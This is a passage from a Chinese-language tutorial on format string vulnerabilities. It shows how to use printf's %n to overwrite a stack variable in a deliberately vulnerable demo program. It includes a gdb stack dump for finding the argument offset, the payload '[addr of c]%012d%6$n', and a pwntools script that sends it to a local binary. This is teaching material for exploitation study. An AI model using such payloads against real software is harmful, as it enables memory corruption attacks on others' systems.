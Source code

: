 ```c
  }
  return 0;
}
```

而无论是覆盖哪个地址的变量，我们基本上都是构造类似如下的 payload

> ...[overwrite addr]....%[overwrite offset]$n

其中... 表示我们的填充内容，overwrite addr 表示我们所要覆盖的地址，overwrite offset 地址表示我们所要覆盖的地址存储的位置为输出函数的格式化字符串的第几个参数。所以一般来说，也是如下步骤

- 确定覆盖地址
- 确定相对偏移
- 进行覆盖

### 覆盖栈内存

#### 确定覆盖地址

首先，我们自然是来想办法知道栈变量 c 的地址。由于目前几乎上所有的程序都开启了 aslr 保护，所以栈的地址一直在变，所以我们这里故意输出了 c 变量的地址。

#### 确定相对偏移

接下来，我们来确定一下存储格式化字符串的地址是 printf 将要输出的第几个参数 ()。 这里我们通过之前的泄露栈变量数值的方法来进行操作。

```
[------------------------------------stack-------------------------------------]
0000| 0xffffd14c ("sbUV\bpUVd\321\377\377\002")
0004| 0xffffd150 --> 0x56557008 --> 0xa7025 ('%p\n')
0008| 0xffffd154 --> 0xffffd164 --> 0x315 
0012| 0xffffd158 --> 0x2 
0016| 0xffffd15c ("HbUV4PUV\025\003")
0020| 0xffffd160 ("4PUV\025\003")
0024| 0xffffd164 --> 0x315 
0028| 0xffffd168 --> 0xffffd1c8 --> 0xffffd28c --> 0xffffd43d ("SHELL=/bin/bash")
[------------------------------------------------------------------------------]
```

在0xffffd164处存着变量c的数值，0xffffd164相对 printf 函数的格式化字符串参数 0xffffd150的偏移为0x14，即格式化字符串相当于 printf 函数的第 7个参数，相当于格式化字符串的第 6个参数。

#### 进行覆盖

这样，第 6 个参数处的值就是存储变量 c 的地址，我们便可以利用 %n 的特征来修改 c 的值。payload 如下：

> [addr of c]%012d%6$n

addr of c的长度为4，故而我们得再输入 12 个字符才可以达到 16 个字符，以便于来修改 c 的值为 16。

```python
#!/usr/bin/python
from pwn import *
re = process('./a.out')
raw_addr=re.recvuntil('n',drop=True) 
c_addr = int(raw_addr,16)
print hex(c_addr)
payload = p32(c_addr) +b"%012d" + b'%6$n'
print payload
re.sendline(payload)
print re.recv()
re.interactive()
```

